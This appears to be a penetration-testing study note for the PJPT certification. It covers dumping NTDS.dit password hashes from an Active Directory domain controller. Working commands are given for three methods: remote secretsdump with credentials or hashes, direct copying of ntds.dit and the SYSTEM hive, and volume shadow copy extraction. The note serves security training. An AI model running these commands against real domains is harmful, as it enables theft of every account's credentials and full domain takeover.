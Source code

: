 # NTDS.dit Extraction and Analysis

## 🎯 Overview

**NTDS.dit** (NT Directory Services Directory Information Tree) is the **heart of Active Directory** - a database containing all domain information including user accounts, groups, security descriptors, and most importantly, **password hashes**.

> **"And oh yeah, password hashes"** - The golden treasure of domain compromise! 💰

## 📊 What is NTDS.dit?

**NTDS.dit** is a database used to store AD data. This data includes:
- **User information** - All domain user accounts and attributes
- **Group information** - Domain groups and membership
- **Security descriptors** - Access control and permissions
- **Password hashes** - NTLM hashes for all domain accounts

### Why It Matters for PJPT
- **Complete domain compromise** - Access to every user's password hash
- **Offline password cracking** - No network noise, unlimited time
- **Lateral movement goldmine** - Credentials for every system
- **Maximum impact demonstration** - Shows complete domain control

## 🔓 Extraction Methods

### Method 1: Secretsdump (Recommended)
```bash
# Direct extraction from Domain Controller
secretsdump.py MARVEL.local/pparker:'Password2'@192.168.138.132 -just-dc-ntlm

# Using hash instead of password
secretsdump.py -hashes :ntlm_hash MARVEL.local/admin@192.168.138.132 -just-dc-ntlm

# Extract with user information
secretsdump.py MARVEL.local/pparker:'Password2'@192.168.138.132 -just-dc
```

### Method 2: Direct File Access (If you have DC access)
```bash
# Copy NTDS.dit and SYSTEM hive
copy C:\Windows\NTDS\ntds.dit C:\temp\ntds.dit
reg save HKLM\SYSTEM C:\temp\system.hive

# Extract locally
secretsdump.py -ntds ntds.dit -system system.hive LOCAL
```

### Method 3: Volume Shadow Copy
```bash
# Create shadow copy
vssadmin create shadow /for=C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\ntds.dit C:\temp\ntds.dit
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\temp\system.hive

# Extract
secretsdump.py -ntds ntds.dit -system system.hive LOCAL
```

